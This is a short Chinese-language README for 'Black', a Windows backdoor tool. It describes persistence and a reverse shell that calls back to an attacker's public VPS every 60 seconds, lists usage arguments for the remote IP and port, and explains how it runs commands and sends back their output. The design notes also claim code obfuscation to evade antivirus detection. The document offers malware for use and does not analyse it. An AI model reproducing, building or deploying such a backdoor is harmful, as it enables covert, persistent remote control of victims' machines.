 # Windows权限维持后门、持续反弹shell，60s/1次
Black v1.1
Usage: black.exe r_ip r_port
author: NOVASEC_黑仔
if cmd == quit:
 关闭管道，临时退出
elif cmd == exit:
 程序结束，永久退出
else:
执行命令，回显结果

##### **~开发思路：**

- S端通过socket管道来传输command给C端，C端执行，实现简易的后门控制
- 采用TCP socket、传输稳定，不掉包（可能会出现粘包，未做边界分离）
- 靶机为C端，公网VPS为S端，C端不断发起连接，以防掉线
- 混淆代码，初步免杀
